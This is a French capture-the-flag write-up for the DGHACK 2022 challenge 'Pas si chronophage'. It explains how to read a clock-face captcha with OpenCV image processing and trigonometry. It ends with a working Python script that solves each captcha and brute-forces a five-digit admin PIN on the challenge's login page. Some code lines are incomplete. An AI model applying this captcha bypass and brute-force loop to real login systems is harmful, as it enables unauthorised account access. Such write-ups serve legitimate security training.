




# DGHACK 2022: Pas si chronophage
Ce challenge de programmation était un challenge de captcha nécessitant un vrai travail de traitement d'image et donc super cool! Effectivement les captchas présentant des lettres peuvent être résolus facilement en utilisant des OCRs mais pour celui-ci où le captcha était une horloge je n'ai pas trouvé d'IA gratuite et adaptée au challenge, j'ai opté pour une méthode plus compliquée mais aussi beaucoup plus intéressante que d'utiliser une IA toute faite en plus de m'avoir fait me replonger dans OpenCv :)

## Introduction

L'énoncé du challenge nous annonce que l'application web permet la connexion de l'utilisateur à son compte de box internet et se présente comme ceci:



On se doute qu'il va falloir bruteforce un code avec un nouveau captcha à chaque nouvelle tentative et cela nous est confirmé quand après avoir rentré un mauvais code on peut accéder à ce tutoriel:


On y apprend que le code à bruteforce est constitué de 5 chiffres, cela fait en tout 10^5 possibilités ce qui est largement abordable or comme expliqué précédemment sans l'aide d'une IA il va falloir ruser pour arriver à extraire une heure sous la forme `hh:mm` depuis une image bruitée comme celle auquel on a accès. Je détaillerai surtout la partie traitement d'image de ce challenge, la partie bruteforce étant assez triviale.

## Traitement d'image
### Débruitage de l'image

Avant toute chose je rajoute des bordures à l'image pour faire en sorte que quand j'essayerai de détecter le cercle constituant le cadran de l'horloge ce dernier ne soit pas coupé par le bord de l'image:

```python
addBorders = lambda x: cv2.copyMakeBorder(x, 20, 20, 20, 20, cv2.BORDER_CONSTANT, value=(255,255,255))
clear = addBorders(cv2.imread(filename))
```

Ensuite pour enlever les lignes de couleur j'utilise ce bout de code qui convertit l'image en noir et blanc en appliquant un seuil sur l'image. Voilà ce que j'obtiens:

```python
    imgFloat = img.astype(float) / 255.
    kernel = np.ones((3,3), np.uint8)
    kChannel = 1 - np.max(imgFloat, axis=2)
    kChannel = (255 * kChannel).astype(np.uint8)
    binaryThresh = 190
    _, binaryImage = cv2.threshold(kChannel, binaryThresh, 255, cv2.THRESH_BINARY)
```



On décèle quelques impuretés sur les aiguilles et sur le contour de l'image pour les enlever on va devoir utiliser deux fonctions très importantes d'OpenCv, `erode` et `dilate`, `erode` est utilisée pour élaguer notre image et retirer des pixels blancs en trop, on va donc appliquer une porte `not` sur notre image avant de l'éroder pour enlever les pixels blancs en trop puis on utilisera la fonction `delate` qui fait l'opération inverse de `erode`. OpenCv va donc convoluer notre image avec une matrice dont la taille impliquera une érosion ou une dilatation plus ou moins grande, nous choisirons deux matrices carrées de taille 3 et 2 pour l'érosion puis la dilatation respectivement.

```python

    img = cv2.bitwise_not(binaryImage)

    kernel_e = np.ones((3,3), np.uint8)
    kernel_d = np.ones((2,2), np.uint8)

    img = cv2.erode(img, kernel_e, iterations=1)
    img = cv2.dilate(img, kernel_d, iterations=2)
```


Ca y'est! On a une image propre sur laquelle travailler. Il va maintenant s'agir de déterminer le cercle formant le contour de l'horloge afin d'en trouver le centre et le rayon puis des coordonnées des aiguilles.

### Obtention des coordonnées des extrémités des aiguilles

```python
    circles = cv2.HoughCircles(thresh, cv2.HOUGH_GRADIENT, 1, minDist=50, param1=190, param2=10, minRadius=10)
    x,y,r = np.round(circles[0][0]).astype("int")
    return x,y,r
```


On peut bien voir le cercle formant le cadran de l'horloge en vert ainsi que le centre de l'horloge en rouge. On va se servir de ces deux informations pour pouvoir itérer sur les différents contours de notre image et trouver celui qui correspond aux aiguilles comme ceci:

```python
    contours, _=cv2.findContours(thresh.copy(),cv2.RETR_TREE,cv2.CHAIN_APPROX_NONE)

    hand_contour = None

    for i in contours:
        x, y, w, h = cv2.boundingRect(i)
        if (h < radius * 1.90) and (w < radius * 1.90) and (h > 30) and (w > 30):
            hand_contour = 
```


Là on peut bien voir qu'on a réussi à trouver le contour correspondant aux aiguilles en mettant des contraintes de tailles sur la longueur et la largeur du dit-contour.
Et c'est là que les réelles magouilles commencent: On veut trouver les deux extrémités des aiguilles pour en avoir les coordonnées mais pour cela on va devoir trouver les fameux `points de Hull`.

Pour faire court, les points de Hull sont une notion de topologie qui caractérise une forme: Il s'agit des point traçant l'enveloppe convexe d'une forme, autrement dit si on entourait un élastique autour de notre forme il s'agirait des points ressortissants.



Cela va nous être utile dans le sens où les points déisgnants les extrémités des aiguilles appartiendront forcément à ces `points de Hull`, il nous suffira de choisir les deux `points de Hull` les plus éloignés du centre du cadran ! Voilà la fonction d'OpenCv pour obtenir les `points de Hull`:
```python
hull = cv2.convexHull(hand_contour)
```


On est obligé de procéder par élimination car plusieurs points sont considérés comme des `points de Hull` pour une même aiguille. Grâce à un algorithme que j'ai trouvé en ligne j'ai pu faire en sorte de garder seulement un `point de Hull` correspondant dans chacune des zones bleues que l'on peut voir sur l'image d'au dessus et je n'ai gardé que les points les plus éloignés du centre pour enfin obtenir les coordonnées des extrémités des aiguilles.



### Calcul de l'angle des aiguilles à partir des coordonnées

C'est là qu'il va falloir ressortir ses formules de trigonométries de 3ème! On a les coordonnées d'une aiguille dans le repère d'OpenCv et on veut déterminer l'angle parcouru par cette aiguille en question, pour ca on calcule la différence de coordonnées entre le centre et l'extrémité de l'aiguille en X et en Y:

```python
    handX, handY = hand
    centerX, centerY = centre

    diffX, diffY = float(handX - centerX), float(handY - centerY)
```
Il y'a surement une manière généralisée de faire ça mais j'ai personellement opté pour une disjonction de cas entre les 4 quarts de l'horloge et j'ai établi l'équation de l'angle de l'aiguille par rapport à l'heure `00:00` (une valeur d'angle 0 dans notre référentiel) en fonction des valeurs de `diffX` et `diffY` et d'une constante. Par exemple voilà comment calculer l'angle parcouru par l'aiguille quand elle se trouve dans le quart `haut/droite` de l'horloge:


D'après la formule `tan(A) = diffY / diffX` on en déduit que l'angle B vaut:

```bash
B = pi / 2 - arctan(diffY / diffX)
```
On répète cette opération pour chaque quart du cadran et on finit par obtenir l'équation de l'angle parcouru par l'aiguille.
Une fois qu'on a obtenu l'angle en Radian, on la convertit à degré et on utilise ces fonctions pour obtenir les valeur en heure ou en minute:

```python
findHour = lambda x: int(x // 30)

findMin = lambda x: int(x / 6)
```

## Bruteforce

Une fois qu'on a obtenue les valeurs sous le format `hh:mm` le bruteforce nécessite seulement un peu de parsing (à l'arrache dans mon cas lmao):

```python
from readClock import findClockTime
import requests
import base64
import re

IDs = {}

def buildIDs(rep):
    matchs = re.findall(r'<div data-pos="\d">\d</div></a>', rep)

    for match in matchs:
        IDs[match[18]] = match[15]

def fromDateToId(date):
    date = date.replace(":","")
    ret = list()

    for digit in date:
        pos = IDs[digit]
        ret.append(str(pos))
    
    ret = "".join(ret)
    return ret

def findCaptcha(rep):
    captcha = re.search(r'', rep).groups(1)[0]
    captcha = "http://passichronophage.chall.malicecyber.com/" + captcha
    
    with open("sample.png", "wb") as f:
        img = requests.get(captcha)
        f.write(img.content)

if __name__ == "__main__":

    s = requests.Session()

    for i in range (100000):
        rep = s.get("http://passichronophage.chall.malicecyber.com/index.php").text

        buildIDs(rep)

        findCaptcha(rep)

        ret = findClockTime("sample.png")

        password = format(i, "#05")
        username = "admin"

        ret = fromDateToId(ret)

        req = s.post("http://passichronophage.chall.malicecyber.com/login.php",
            data = {'username':base64.b64encode(username.encode("utf-8")), 'password':base64.b64encode(password.encode("utf-8")), 'captcha':base64.b64encode(ret.encode("utf-8"))})
        
        if "Wrong captcha" in req.text:
            print(f"Wrong Captcha: {i}")
        elif "Bad username/password" in req.text:
            print(f"Bad password: {i}")
        else:
            print(f"Password: {i}")
            exit()
```

## Conclusion

Etant donné que les captchas étaient générés aléatoirement il n'était pas possible d'éliminer correctement le bruit à chaque fois et donc d'obtenir un taux de réussite de 100% quand à la détermination des captchas.
C'est pourquoi il était plus judicieux de s'assurer que le captcha était bien validé avant de voir si le mot de passe essayé était à bon ou non, dans le cas contraire si le bon mot de passe était essayé mais que le captcha n'était pas le bon, tout le reste du bruteforce était à jeter (logique hein). Je n'ait pas utilisé cette technique je m'estime donc chanceux que le captcha soit juste lorsque le mot de passe correct a été essayé! ;)


